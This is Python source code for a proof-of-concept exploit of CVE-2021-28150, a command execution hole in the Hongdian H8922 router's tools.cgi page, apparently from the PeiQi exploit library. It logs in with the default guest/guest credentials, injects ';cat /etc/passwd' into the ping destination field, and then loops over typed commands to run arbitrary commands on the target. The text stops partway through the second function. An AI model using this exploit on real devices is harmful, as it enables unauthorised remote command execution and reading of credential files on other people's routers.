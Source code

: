     def title():
        print('+------------------------------------------')
        print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
        print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
        print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
        print('+  \033[34mTitle  : 宏电 H8922 后台命令执行漏洞 CVE-2021-28150                  \033[0m')
        print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
        print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
        print('+------------------------------------------')

    def POC_1(target_url, cmd):
        vuln_url = target_url + "/tools.cgi"
        headers = {
                "Content-Type": "application/x-www-form-urlencoded",
                "Authorization": "Basic Z3Vlc3Q6Z3Vlc3Q="
        }
        data = "op_type=ping&destination=;cat /etc/passwd&user_options=uid%3D0%28root%29+gid%3D0%28root%29%0D%0A"
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
            print("\033[32m[o] 正在请求 {}/tools.cgi \033[0m".format(target_url))
            if "root" in response.text and response.status_code == 200:
                print("\033[32m[o] 目标 {}存在漏洞 ,存在访客账号 guest/guest 成功执行 cat /etc/passwd \033[0m".format(target_url))
                html = etree.HTML(response.text)
                cmd_test = html.xpath('/html/body/div[1]/div/div[2]/div/form/fieldset[2]/div/textarea/text()')[0]
                print("\033[32m[o] 响应为:\n{} \033[0m".format(cmd_test))
                while True:
                    cmd = input("\033[35mCmd >>> \033[0m")
                    if cmd == "exit":
                        sys.exit(0)
                    else:
                        POC_2(target_url, cmd)
            else:
                print("\033[31m[x] 请求失败 \033[0m")
                sys.exit(0)
        except Exception as e:
            print("\033[31m[x] 请求失败 \033[0m", e)

    def POC_2(target_url, cmd):
        vuln_url = target_url + "/tools.cgi"
        headers = {
            "Content-Type": "application/x-www-form-urlencoded",
            "Authorization": "Basic Z3Vlc3Q6Z3Vlc3Q="
        }
        data = "op_type=ping&destination=;{}&user_options=uid%3D0%28root%29+gid%3D0%28root%29%0D%0A".format(cmd)
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
            html = etree.HTML(response.text)
            cmd_test = html.xpath('/html/body/div[1]/div/div[2]/div/form/fieldset[2]/div/textarea/text()')[0]
            print("\033[32m[o] 响应为:\n{} \033[0m".format(cmd_test))
